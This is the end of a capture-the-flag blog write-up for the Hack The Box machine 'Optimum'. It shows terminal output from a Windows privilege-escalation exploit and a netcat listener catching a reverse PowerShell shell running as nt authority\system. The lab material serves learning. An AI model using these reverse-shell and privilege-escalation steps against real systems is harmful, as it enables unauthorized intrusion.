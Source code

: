 The terminal on `optimum` hangs and boom we get below

```
__ __ ___ ___   ___     ___ ___ ___
|  V  |  _|_  | |  _|___|   |_  |_  |
|     |_  |_| |_| . |___| | |_  |  _|
|_|_|_|___|_____|___|   |___|___|___|

[by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!

PS C:\Users\kostas\Desktop>

```

Also am listening on port `9002` on another terminal and I can see a connection. And we are root.

```
┌─[george@parrot]─[~/HTB/boxes/optimum/share]
└──╼ $ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.8] 49243
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami  
nt authority\system
PS C:\Users\kostas\Desktop>
```

And thats the box. Thank you all for taking your time to read my blog post, stay tuned for the next!
Happy hacking!
